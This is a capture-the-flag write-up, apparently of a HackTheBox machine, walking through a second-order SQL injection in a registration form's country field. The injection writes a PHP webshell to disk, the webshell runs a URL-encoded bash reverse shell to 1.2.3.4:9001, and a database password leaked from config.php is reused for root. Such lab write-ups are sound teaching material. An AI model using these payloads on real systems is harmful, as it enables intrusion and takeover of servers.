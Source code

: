 > Author: **[ippsec][author-profile]**!

Ippsec sensei said it all in his [video][walkthrough-ippsec], so this WU will
be concise.

## Discovery

### Port scanning

```bash
PORT     STATE    SERVICE       VERSION
22/tcp   open     ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open     http          Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)
5000/tcp filtered upnp
5001/tcp filtered commplex-link
5002/tcp filtered rfe
5003/tcp filtered filemaker
5004/tcp filtered avt-profile-1
8080/tcp open     http          nginx
```

### Web browsing

The website lands on a registration page:

![][registration]

Upon submission, it redirects to `/account.php`:

```bash
HTTP/1.1 302 Found
Date: Thu, 16 Sep 2021 06:08:02 GMT
Server: Apache/2.4.48 (Debian)
X-Powered-By: PHP/7.4.23
Set-Cookie: user=cc705c9428384a563c68624e97491bb2
Location: /account.php
Content-Length: 0
Connection: close
Content-Type: text/html; charset=UTF-8
```

And the account page displays all the users in the same country. Since the
request doesn't contain any data apart from the cookie, it must use it to
fetch the session / user data from some database.

Submiting the registration form with the same username and another country
displays the former input. Ie the server doesn't update its record and loads
the user data already in the DB:

![][no-update-on-account]

## Break-in

It's possible to submit a custom country:

```html
<!-- username=a&country=foo -->
<h1 class="text-white">Welcome a</h1><h3 class="text-white">Other Players In foo</h3><li class='text-white'>apehex</li>
```

So we try injecting a SQL statement:

```html
<h1 class="text-white">Welcome c</h1>
<h3 class="text-white">Other Players In ' UNION SELECT 1;-- -</h3>
<li class='text-white'>1</li>
```

The `<h3>` tag shows that the query is stored verbatim in the DB, but evaluated
on the second query, when the server retrieves the list of users.

This is a second order SQLi, another lesson from **[iipsec][author-profile]**!

So we register yet another user with a webshell:

```
username=d&country=' UNION SELECT '<?php $c=chr(99);system($_REQUEST[$c]); ?>' INTO OUTFILE '/var/www/html/shell.php';-- -
```

Now we can create a functional reverse shell from the page `/shell.php`:

```
c=%62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%2e%32%2e%33%2e%34%2f%39%30%30%31%20%30%3e%26%31%27
```

## Escalation

The database itself contains only user data, but the root password is stored in
the config file:

```bash
cat config.php
# <?php
#   $servername = "127.0.0.1";
#   $username = "uhc";
#   $password = "uhc-9qual-global-pw";
#   $dbname = "registration";

#   $conn = new mysqli($servername, $username, $password, $dbname);
# ?>
su -
```

[author-profile]: https://app.hackthebox.eu/users/3769

[no-update-on-account]: images/no-update-on-account.png
[registration]: images/registration.png
[walkthrough-ippsec]: https://www.youtube.com/watch?v=UqoVQ4dbYaI
